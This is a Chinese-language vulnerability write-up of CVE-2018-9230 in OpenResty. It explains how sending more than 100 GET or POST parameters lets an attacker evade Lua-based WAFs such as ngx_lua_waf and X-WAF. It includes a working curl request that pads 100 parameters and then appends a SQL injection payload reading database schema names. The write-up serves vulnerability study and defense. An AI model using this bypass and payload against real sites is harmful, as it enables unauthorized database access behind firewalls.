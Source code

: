 （CVE-2018-9230）bypass OpenResty waf
=====================================

一、漏洞简介
------------

OpenResty是一款基于Nginx和Lua的Web平台。该平台用于搭建用于处理高并发、高扩展性的动态Web应用、Web服务和动态网关。OpenResty1.13.6.1之前的版本中存在安全漏洞，该漏洞源于程序使用`ngx.req.get_uri_args`和`ngx.req.get_post_args`函数接受参数的数量可以超过100个。远程攻击者可利用该漏洞绕过访问限制，干预Web应用程序防火墙(ngx\_lua\_waf或X-WAF)产品。

二、漏洞影响
------------

OpenResty \< 1.13.6.1

三、复现过程
------------

漏洞分析
--------

### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri
有两个方法：`ngx.req.get_uri_args`、`ngx.req.get_post_args`，二者主要的区别是参数来源有区别，`ngx.req.get_uri_args`获取
uri 请求参数，`ngx.req.get_post_args`获取来自 post 请求内容。

**测试用例：**

    server {
    listen 80;
    server_name localhost;

    location /test {
    content_by_lua_block {
    local arg = ngx.req.get_uri_args()
    for k,v in pairs(arg) do
    ngx.say(“[GET ] key:”, k, “ v:”, v)
    end
    ngx.req.read_body()
    local arg = ngx.req.get_post_args()
    for k,v in pairs(arg) do
    ngx.say(“[POST] key:”, k, “ v:”, v)
    end
    }
    }
    }

**输出测试：**

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId26.png)

### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId28.png)

这里，介绍参数大小写，主要用于进一步构造和理解测试用例。

### C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10\*10,共100参数，然后第101个参数添加SQL注入
Payload，我们来看看会发生什么？

测试用例：`curl 'www.0-sec.org/test?a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata`

**输出结果：**

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId30.png)

可以看到，使用`ngx.req.get_uri_args`获取uri
请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId31.png)

使用`ngx.req.get_post_args`
获取的post请求内容，也同样只获取前100个参数。

检查这两个函数的文档，出于安全原因默认的限制是100，它们接受一个可选参数，最多可以告诉它应该解析多少GET
/
POST参数。但只要攻击者构造的参数超过限制数就可以轻易绕过基于OpenResty的安全防护，这就存在一个uri参数溢出的问题。

综上，通过`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，当提交的参数超过限制数（默认限制100或可选参数限制），uri参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测，从而绕过基于OpenResty的WEB安全防护。

漏洞复现
--------

基于OpenResty构造的WEB安全防护，大多数使用`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，即默认限制100，并没有考虑参数溢出的情况，攻击者可构造超过限制数的参数，轻易的绕过安全防护。基于OpenResty的开源WAF如：ngx\_lua\_waf、X-WAF、Openstar等，均受影响。

### A、ngx\_lua\_waf

ngx\_lua\_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx\_lua\_waf

**拦截效果图：**

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId34.png)

**利用参数溢出Bypass：**![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId35.png)

### B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：[https://waf.xsec.io](https://waf.xsec.io/)

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId38.png)

**利用参数溢出Bypass：**

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-9230)bypassOpenRestywaf/media/rId39.png)

参考链接
--------

> https://www.anquanke.com/post/id/103771
